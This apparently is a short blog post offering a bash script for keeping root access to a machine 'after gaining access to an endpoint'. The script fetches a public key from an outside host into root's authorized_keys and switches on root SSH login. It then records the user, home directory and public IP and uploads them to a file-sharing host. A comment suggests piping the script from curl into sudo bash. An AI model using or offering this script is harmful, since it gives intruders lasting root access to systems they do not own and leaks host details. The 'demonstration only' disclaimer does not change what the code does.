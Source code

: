 ```yaml
---
layout: post
title: Root SSH Certificate
tags:
- Security
- SSH
---
```


After gaining access to an endpoint use the following script to install a root ssh certificate.

This is for demonstration purposes only. SSH should not be accessed using root.

Download script <a href="https://github.com/StartTheTrip/Bash/blob/b794be11bcc0f48554bdae66619aae4a4f312f16/Root%20SSH%20Certificate/add_root_ssh_certificate.sh">here</a>.<br>

```
#!/bin/bash
# Remote SSH Certificate Install - StartTheTrip
# via 'curl https://location.com/RootSSH.sh | sudo bash'
# cat >> .ssh/authorized_keys || exit 1 ;
if [ ! -d /root/.ssh ]; then
	mkdir -p /root/.ssh;
fi
curl https://www.test.com/mykey.pub >> /root/.ssh/authorized_keys
echo permitRootLogin yes >> /etc/ssh/sshd_config
echo $USER - $HOME > /tmp/success.txt
curl https://ifconfig.me >> /tmp/success.txt
curl -f "file=@/tmp/success.txt" https://file.uploadsite.me
rm -rf /tmp/success.txt
```
<br>
Tag: Security, SSH